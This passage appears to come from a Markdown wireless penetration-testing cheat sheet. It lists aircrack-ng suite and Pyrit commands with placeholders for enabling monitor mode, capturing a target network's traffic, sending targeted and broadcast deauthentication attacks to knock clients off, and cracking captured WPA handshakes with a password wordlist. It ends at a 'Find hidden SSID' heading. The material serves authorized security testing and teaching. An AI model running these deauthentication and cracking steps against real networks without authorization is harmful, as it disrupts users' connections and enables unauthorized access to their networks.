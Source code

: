 ### Cracking WPA with Pyrit

```
# Start monitor mode
airmon-ng start <INTERFACE>

# Packet capture
airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# Deauthentication attack
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>

# Crack (slow better use aircrack-ng)
pyrit -r <CAPTURE_NAME> -b <BSSID> -i <PASSWORDS_WORDLIST> attack_passthrough

or

# Import passwords list
pyrit -i <PASSWORDS_WORDLIST> import_passwords

# Import ESSID in database
pyrit -e <ESSID> create_essid

# Generate hashes for the specific SSID (Slow to generate, but faster than coWPAtty)
pyrit batch

# Crack (Very fast)
pyrit -r <CAPTURE_NAME> attack_db
```

### Airgraph-ng

Airgraph-ng is a Python script that creates graphs of wireless networks using the CSV files that are generated by Airodump-ng.

```
airgraph-ng -i <FILENAME>.csv -g CAPR -o out.png
```

## Miscellaneous

### WPA/WPA2 no clients showing

In WPA/WPA2 if there is no clients connected, try to broadcast deauthenticate. Do it a few times and if there is clients connected they should pop on your airodump-ng capture.

```
# Deauthentication broadcast attack
aireplay-ng -0 1 -a <BSSID> <INTERFACE>
```

### Find hidden SSID
